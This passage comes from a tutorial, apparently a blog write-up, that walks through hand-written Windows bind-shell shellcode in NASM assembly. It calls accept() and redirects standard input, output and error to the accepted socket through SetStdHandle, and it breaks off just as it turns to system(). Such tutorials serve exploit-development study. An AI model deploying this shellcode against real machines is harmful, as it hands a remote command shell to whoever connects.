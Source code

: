Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept</a>

Syntax:
```nasm
accept(SOCKET s, sockaddr *addr, int *addrlen)
```

As the docs says, "The accept function permits an incoming connection attempt on a socket". We need to store the return value here, which gets stored in EAX. We store a copy in EBX for later use.

```nasm
xor eax, eax         ; Clear eax
push eax             ; Arg3 (addrlen) = 0
push eax             ; Arg2 (*addr) = 0
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AC1040  ; Address to accept()
call eax
mov ebx, eax         ; Store accept() handler
```

Now finally we have the socket up and running. Time to implement the shell part.

## System call: SetStdHandle

Docs: <a href="https://docs.microsoft.com/en-us/windows/console/setstdhandle">https://docs.microsoft.com/en-us/windows/console/setstdhandle</a>

Syntax:
```nasm
SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
```

We will call this function three times to set STD_INPUT, STD_OUTPUT and STD_ERROR to the accepted socket connection.

```nasm
mov edx, 0x7c81d363  ; Address to SetStdHandle()

push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff6      ; Arg1 (nStdHandle) = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff5      ; Arg1 (nStdHandle) = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler          
push 0xfffffff4      ; Arg1 (nStdHandle) = -0C (STD_ERROR)
call edx
```

## System call: system

Documentation: <a href="https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019">https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019</a>
